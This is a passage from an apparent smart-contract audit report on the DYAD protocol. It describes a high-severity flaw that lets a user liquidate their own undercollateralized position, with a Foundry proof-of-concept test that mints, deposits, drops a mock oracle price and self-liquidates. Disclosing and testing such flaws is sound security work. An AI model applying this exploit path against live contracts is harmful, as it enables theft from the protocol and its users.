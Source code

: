```javascript
        licenser.add(address(manager));

        kerosineManager.add(address(regularVaultUSDC));
        kerosineManager.add(address(regularVaultWETH));
        kerosineManager.add(address(boundedKerosineVault));
        kerosineManager.add(address(unboundedKerosineVault));

        licenser.add(address(regularVaultUSDC));
        licenser.add(address(regularVaultWETH));
        licenser.add(address(unboundedKerosineVault));
        licenser.add(address(boundedKerosineVault));
    }
}
```

## High

### [H-1] `VaultManagerV2::liquidate` Permits Users to Liquidate Their Own Positions

**Description**
`VaultManagerV2::liquidate` does not verify that the liquidator is different from the owner of the position being
liquidated.This omission allows a user to liquidate their own position when the collateralization ratio falls below
150%, which may bypassintended liquidation restrictions.

https://github.com/code-423n4/2024-04-dyad/blob/344a58bb84b24d6c281be038a5dff1631426e9c0/
src/core/VaultManagerV2.sol#L200-L203

**Impact**

Severity: High - because an undercollateralized user can profit instead of being penalized and breaks protocol logic.
Likelihood: High - any positon can become liquidatable

**Proof of Concepts**

```javascript
function test_userCanLiquidateHimself() public {
        // userA got minted 160 USDC tokens which are equivelant to $160 at the currant price of $1 per USDC
        // then price is changed to make this positon liquidatble and then user liquidate himself

        uint256 userInitialUSDCBalance = 160e6;
        usdc.mint(userA, userInitialUSDCBalance);

        vm.startPrank(userA);
        manager.add(dNftA, address(regularVaultUSDC));
        usdc.approve(address(manager), 160e6);
        manager.deposit(dNftA, address(regularVaultUSDC), 160e6);
        manager.mintDyad(dNftA, 100e18, userA);
        vm.stopPrank();

        vm.roll(block.number + 1);

        // now the price dropped to 80 cents and userA become liquidatable
        // this create a bad debt to the protocol and the user to be liquidate
        // retrain all his assets
        usdcOracle.setPrice(8 * 1e7);

        vm.prank(userA);
        manager.liquidate(dNftA, dNftA);
        vm.startPrank(userA);
        manager.withdraw(dNftA, address(regularVaultUSDC), 160e6, userA);
```